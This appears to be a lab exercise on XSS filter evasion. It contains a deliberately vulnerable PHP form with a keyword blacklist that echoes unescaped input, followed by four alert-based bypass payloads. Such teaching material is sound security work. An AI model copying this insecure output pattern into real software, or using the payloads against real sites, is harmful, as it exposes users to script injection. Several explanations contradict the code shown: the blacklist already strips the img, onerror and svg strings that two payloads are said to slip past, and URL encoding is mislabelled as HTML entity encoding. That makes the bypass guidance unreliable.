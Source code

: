 # Write A Web Application With Insecure XSS Filters
An insecure XSS filter occurs when an application fails to properly validate user input, allowing attackers to inject malicious code into web pages. Some developers use blacklists to block dangerous strings like "<script" or "onload=" but often miss edge cases, leaving the application vulnerable to XSS attacks.

## References
- [OWASP - XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) by OWASP

## Tasks
- Write a simple web application containing multiple input fields that are vulnerable to cross-site scripting
- Apply insecure filtering mechanisms to these input fields, such as a blacklist that attempts to block commonly known dangerous XSS keywords
- Develop a blacklist containing at least 30 dangerous XSS keywords (e.g., "<script>", "onload=", "alert(", etc.) that you plan to use to try and protect the input fields
- Use various XSS techniques, such as HTML encoding, JavaScript obfuscation, and bypassing blacklist filters, to inject malicious JavaScript code into the input fields
- Verify that the injected malicious JavaScript code is executed on the web application's frontend, demonstrating the bypass of the insecure XSS filters

## Steps With Solutions
1. PHP for vulnerable web application:
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>XSS Vulnerable Web Application</title>
    </head>
    <body>
        <h1>Submit Your Input</h1>
        <form action="" method="POST">
            <label for="user_input">Enter something:</label>
            <input type="text" name="user_input" id="user_input">
            <br><br>
            <button type="submit">Submit</button>
        </form>
    
        <?php
        if ($_SERVER['REQUEST_METHOD'] === 'POST') {
            // Get the user input from the form
            $user_input = $_POST['user_input'];
    
            // Blacklist-based filtering (insecure)
            $blacklist = [
                "<script>", "</script>", "onload=", "onerror=", "alert(", "javascript:", "<img", "<iframe", "<svg", "<a", "<div", 
                "<body", "<object", "<embed", "style=", "expression(", "document.cookie", "window.location", "eval(", 
                "setTimeout(", "setInterval(", "localStorage", "sessionStorage", "innerHTML", "outerHTML", "write(", "onmouseover=",
                "onfocus=", "onclick=", "onblur=", "onchange=", "onkeypress=", "onkeydown=", "onkeyup="
            ];
    
            // Replace blacklisted strings with an empty string (insecure filter)
            foreach ($blacklist as $dangerous_string) {
                $user_input = str_ireplace($dangerous_string, '', $user_input);
            }
    
            // Display the filtered user input (vulnerable to XSS)
            echo "<h2>Output:</h2>";
            echo "<p>" . $user_input . "</p>";
        }
        ?>
    </body>
    </html>
    ```
2. Insecure XSS filtering mechanism
- The PHP code retrieves the user input and processes it through a blacklist-based filter.
- The blacklist contains common XSS vectors (like <script>, onload=, etc.) which are removed from the user input.
- This method is insecure because:
  - It only removes known keywords, leaving edge cases and obfuscated payloads unfiltered.
  - Blacklist filtering can be bypassed by encoding, escaping, or obfuscating payloads.
3. Testing bypasses in the application with XSS payloads
- HTML Entity Encoding Bypass: <br/>
   `<scr%69pt>alert('XSS')</scr%69pt>`
   - The filter might not decode the `%69`, allowing the script to bypass the filter
- Broken-Up Script Tags: <br/>
   `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
   - By splitting up the `<script>` tag, the filter might not catch the malicious code
- Onerror Event in an Image: <br/>
   `<img src=x onerror=alert('XSS')>`
   - Using event handlers like onerror, you can inject code via HTML elements
- JavaScript Obfuscation: <br/>
   `<svg/onload=alert('XSS')>`
   - SVG tags are often overlooked by filters, and the event handler can still execute the script
